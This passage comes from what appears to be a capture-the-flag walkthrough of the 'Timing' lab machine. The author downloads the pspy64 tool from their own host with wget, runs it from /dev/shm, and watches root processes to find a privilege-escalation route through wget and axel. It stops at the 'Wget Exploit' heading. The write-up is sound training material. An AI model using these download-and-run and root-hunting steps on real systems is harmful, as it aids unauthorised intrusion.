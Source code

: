 Now back to the box and pull pspy64 across:

```text
aaron@timing:~$ cd /dev/shm
aaron@timing:/dev/shm$ wget http://10.10.14.12/pspy64
--2021-12-28 21:59:49--  http://10.10.14.12/pspy64
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64     100%[==========>]   2.94M  2.34MB/s    in 1.3s    
2021-12-28 21:59:51 (2.34 MB/s) - ‘pspy64’ saved [3078592/3078592]

aaron@timing:/dev/shm$ chmod +x pspy64 
aaron@timing:/dev/shm$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/12/28 22:00:08 CMD: UID=0    PID=97     | 
2021/12/28 22:00:08 CMD: UID=0    PID=95     | 
```

With that running in our current SSH session log in to a second one and then run netutils again. Do the same option 0 for FTP and option 1 for HTTP as before, again trying to pull my pencer.jpg file across. Now switch back to the pspy64 session to see what is happening:

```text
2021/12/28 22:03:30 CMD: UID=1000 PID=3681   | sudo /usr/bin/netutils
2021/12/28 22:03:47 CMD: UID=0    PID=3750   | java -jar /root/netutils.jar
<SNIP>
2021/12/28 22:04:30 CMD: UID=0    PID=3868   | wget -r ftp://10.10.14.12/pencer.jpg
2021/12/28 22:05:24 CMD: UID=0    PID=4021   | /root/axel http://10.10.14.12/pencer.jpg
```

## Wget Exploit

We can see the netutils java app is using wget for FTP connections, and axel for HTTP. I later found It's possible to complete this box by exploiting axel, but I did it using FTP so we'll follow that method.
